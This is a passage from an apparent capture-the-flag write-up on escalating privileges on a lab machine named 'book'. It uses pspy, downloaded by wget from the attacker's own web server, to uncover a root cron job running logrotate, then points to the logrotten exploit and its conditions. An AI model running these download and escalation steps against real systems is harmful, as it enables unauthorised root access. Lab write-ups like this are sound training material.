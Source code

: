 ~~~
~~~

It is clear now that it is activated avery minute and it executes the program bash script ***/root/log.sh***. 

Although we can not read the content of the script because it is in root directory, we may gather information about what it is actually doing by looking closely at processes executed on the target.

**`pspy`** is very good at this. It is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. We can download it here: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)   

We set up a web server on our Kali machine:
~~~
root@kali:~# python3 -m http.server 80
~~~

And download pspy from the target:
~~~
reader@book:~$ wget http://10.10.14.18/pspy
~~~

If we use pspy to monitor the operation of the target machine, we notice:

~~~
2020/06/07 19:54:26 CMD: UID=0    PID=47635  | /usr/sbin/logrotate -f /root/log.cfg 
2020/06/07 19:54:26 CMD: UID=0    PID=47634  | /bin/sh /root/log.sh 
2020/06/07 19:54:26 CMD: UID=0    PID=47636  | sleep 5 
2020/06/07 19:54:31 CMD: UID=0    PID=47638  | /usr/sbin/logrotate -f /root/log.cfg 
2020/06/07 19:54:31 CMD: UID=0    PID=47637  | /bin/sh /root/log.sh 
2020/06/07 19:54:31 CMD: UID=0    PID=47639  | sleep 5 
~~~

We can assume that log.sh is actually doing : `/usr/sbin/logrotate -f /root/log.cfg`

### 4.3- Post-Compromise Exploitation

If we have a look at logrotate on EDB, we can find an **exploit for logrotate version 3.8.6, 3.11.0 and 3.15.0, with Ubuntu 18.04.1.**

Checking the target version of logrotate:
~~~
reader@book:~$ logrotate --version
logrotate 3.11.0
~~~


The exploit  on EDB is:   
**logrotten 3.15.1 - Privilege Escalation**: [https://www.exploit-db.com/exploits/47466](https://www.exploit-db.com/exploits/47466)

It requests the following conditions for privilege escalation :
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - Any option that creates files is set in the logrotate configuration

And we have to look at the logrotate config file to find if it is "create" or "compress" option that is set. 
